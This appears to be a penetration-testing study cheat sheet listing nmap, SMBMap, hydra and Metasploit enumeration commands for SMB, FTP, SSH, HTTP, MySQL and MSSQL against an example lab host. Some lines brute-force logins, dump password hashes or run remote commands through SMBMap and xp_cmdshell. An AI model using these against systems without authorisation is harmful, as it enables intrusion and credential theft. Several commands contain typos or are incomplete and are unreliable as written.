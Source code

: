# Enumeration
### Enumerating servers and services
##### ***Note: the 10.10.10.10 IP address is used as an example here and you can change it to your desired IP address.*** 
#### SMB:
 - Windows implementation of file share
 - Server Message Block
 - port 445
 - smb enumeration using Nmap Scripts
 - $ nmap -p 445 --script smb-protocols 10.10.10.10
 - $ nmap -p445 --script smb-security-mode 10.10.10.10
 - $ nmap -p445 --script smb-enum-sessions 10.10.10.10
 - $ nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10
 - enumerate shares --> $ nmap -p445 --script smb-enum-shares 10.10.10.10
 - $ nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 
 - enumerate users  --> $ nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 
 - check the Nmap Scripts documentation for more SMB scripts that can be useful for penetration testing
 - tool used - SMBMap
 - $ smbmap -u guest -p "" -ed . -H 10.10.10.10
 - running a command using SMBMap --> $ smbmap -H 10.10.10.10 -u administrator -p smbserver_771 -x 'ipconfig'
 - check the -help and documentation for more commands  
 - you can connect, enumerate, upload, and download files using the SMBMap 
 - $ smbmap -H 10.10.10.10 -u administrator -p smbserver_771 --download 'c$\flag.txt'

#### SMB - Samba
- Samba is the SMB version of the Linux
- can also use Metasploit  by using --> auxiliary(scanner/smb/smb_version)
- connect via smbclient and rpcclient --> These tools are preinstalled in Kali Linux
- enum4linux  --> great tool

#### FTP
- File Transfer Protocol
- port 21
- check for usernames using hydra --> $ hydra -L /usr/share/merasploit-framework/data/wordlists/common_users.txt -P /usr/share/merasploit-framework/data/wordlists/unix_passwords.txt 10.10.10.10 ftp
- we can also do it via Nmap Scripts --> nmap 10.10.10.10 --script ftp-brute --script-args userdb=/root/users -p 21  --> users in this argument is the list of users 
- connet via ftp  --> ftp 10.10.10.10
- anonymous Login --> nmap 10.10.10.10 -p 21 --script ftp-anon <--> If anonymous login was allowed, connect using FTP and enter anonymous for the user and no password

#### SSH
- Secure Shell
- port 22
- how to connect :- $ ssh root@10.10.10.10
- $ nc 10.10.10.10 22
- $ nmap 10.10.10.10 -p 22 --script ssh2-enum-algos  --> to check which algorithms is being used
- nmap 10.10.10.10 -p 22 --script ssh-hostkey --script-arg ssh_hostkey=full --> pull rsa host key
- check for weak passwords - $ nmap 10.10.10.10 -p 22 --script ssh-auth-methods --script-args="ssh.user=student" --> student can be admin or any user
- SSH Dictionary attack -- for poor passwords and poor misconfiguration
- $ hydra -l student -P /usr/share/passwordlists/rockyou.txt 
- $ nmap 10.10.10.10 -p 22 --script ssh-brute --script-args user=administrator ***or can be a list of users and can be specified by -- userdb=/root/users***
- we can also use Metasploit to perform a brute force 
- metasploit command --> use auxiliary/scanner/ssh/ssh_login -- configure the options and run

#### HTTP
- for hosting websites
- $ whatweb 10.10.10.10
- $ http 10.10.10.10
- $ dirb http://10.10.10.10
- $ browsh --startup-url http://10.10.10.10/Default.aspx  --> a good tool if you have access to just the terminal, it will help you see somehow the actual webpage
- Nmap scripts --> nmap 10.10.10.10 -sV -p 80 --script http-enum 
- $ nmap 10.10.10.10 -sV -p 80 --script http-headers
- $ nmap 10.10.10.10 -sV -p 80 --script http-methods --script-args http-methods.url-path=/webdav/
- the above commands are an example of how to enumerate an HTTP with Nmap Scripts 
- for Linux/Unix OS
- nmap 10.10.10.10 -p 80 -sV -script banner
- using Metasploit --> use auxuilary/scanner/http/http_version --> configure all options
- wget "http://10.10.10.10/index"  --> will download the webpage
- also browsh 
- Metasploit again --> use auxiliary/scabber/http/brute_dirbs 
- dirb http://10.10.10.10 <passwordlist path>
- robots.txt --> use auxiliary/scanner/http/robots_txt

#### SQL
- $ nmap 10.10.10.10 -p 3306 --script=mysql-empty-password --> check the Nmap documentation for more scripts for MySQL
- $ mysql -h 10.10.10.10 -u root 
- once inside -- show databases 
- and then -- use books; 
- using Metasploit 
- use auxiliary/scanner/mysql/mysql_writeable_dirs
- use auxiliary/scanner/mysql/mysql_hashdump  --> another Metasploit auxiliary that can be used
- $ nmap 10.10.10.10 -p 3306 --script=mysql-empty-password
- dictionary attack using Metasploit --> use auxiliary/scanner/mysql/mysql_login
- or by hydra --> $ hydra -l root -P < **password list path**> 10.10.10.10 mysql

#### MSSQL -- Windows version
- Nmap script fo MSSQL --> nmap 10.10.10.10 -p 1433 --script ms-sql-info 
- $ nmap 10.10.10.10 -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
- $ nmap 10.10.10.10 -p 1433 --script ms-sql-brute --script-args userdb=< **users list path**>,password=< **pass list path**>
- check for empty passwords --> $ nmap 10.10.10.10 -p 1433 --script ms-sql-empty-password
-  $ nmap 10.10.10.10 -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
- $ $ nmap 10.10.10.10 -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
- $ nmap 10.10.10.10 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" --> running a command 
- Metasploit 
- $ use auxiliary/scanner/mssql/mssql_login  --> configure all options
- $ use auxiliary/admin/mssql/mssql_enum 
- $ use auxiliary/admin/mssql/mssql_enum_sql_logins
- $ use auxiliary/admin/mssql/mssql_exec -- set cmd whoami
- $ use auxiliary/admin/mssql/mssql_enum_domain_accounts
- For all the above Metasploit commands, do complete all the options that are required with a yes
